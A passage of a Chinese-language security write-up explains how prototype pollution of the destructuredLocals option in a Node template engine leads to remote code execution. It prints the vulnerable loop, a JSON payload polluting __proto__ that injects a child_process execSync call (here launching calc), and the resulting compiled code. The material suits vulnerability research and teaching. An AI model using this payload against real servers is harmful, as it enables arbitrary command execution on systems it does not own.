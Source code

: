 [![](assets/1707954592-183032e3027579eee756964e8949ab4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202195954-93aae292-c1c2-1.png)

## 第二处：destructuredLocals 字段 RCE

-   可以看到`prepended += destructuring + ';\n';`进行了控制，所以这里我们就可以通过控制 destructuring->控制 name->控制`opts.destructuredLocals[i]`来进行控制，这里`opts.destructuredLocals`是数组的形式，所以我们需要传入一个污染后的数组，能让`opts.destructuredLocals[0]`顺利的赋值给 name 我们就能够进行污染

```bash
if (opts.destructuredLocals && opts.destructuredLocals.length) {
  var destructuring = '  var __locals = (' + opts.localsName + ' || {}),\n';
  for (var i = 0; i < opts.destructuredLocals.length; i++) {
    var name = opts.destructuredLocals[i];
    if (i > 0) {
      destructuring += ',\n  ';
    }
    destructuring += name + ' = __locals.' + name;
  }
  prepended += destructuring + ';\n';
}
```

```bash
{
    "__proto__":{
    "destructuredLocals":[
        "a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2"
    ]
    }
}
```

-   可以看到这里我们通过 a=a;进行上面 pretended+=的闭合，然后也成功注入了我们的恶意代码

```bash
var __output = "";
function __append(s) { if (s !== undefined && s !== null) __output += s }
var __locals = (locals || {}),
a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2 = __locals.a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2;
```
